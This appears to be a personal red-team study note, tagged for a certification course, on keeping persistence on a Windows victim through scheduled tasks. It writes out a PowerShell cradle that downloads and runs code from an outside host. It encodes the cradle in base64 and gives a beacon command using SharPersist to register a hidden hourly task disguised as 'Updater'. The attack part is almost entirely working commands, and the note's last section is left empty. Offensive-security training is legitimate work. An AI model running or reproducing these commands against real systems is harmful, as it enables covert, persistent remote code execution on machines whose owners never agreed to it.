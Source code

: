 
The Windows Task Scheduler allows us to create "tasks" that execute on a pre-determined trigger. We can use this for persistence on a victim. 

### 🖊️ Create scheduled task with Powershell

1) For example a payload download, we assign the string to a variable:
	`$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'`

2) Convert to base64 in unicode , using Windows
		```	[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

3) Convert to base64 in unicode , using Linux

	`set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'`

	`echo -en $str | iconv -t UTF-16LE | base64 -w 0`

4) Then you can execute the task using a tool like sharpPersist

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly
```
 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:10
🏷️ tags: #redteam #crto   
---

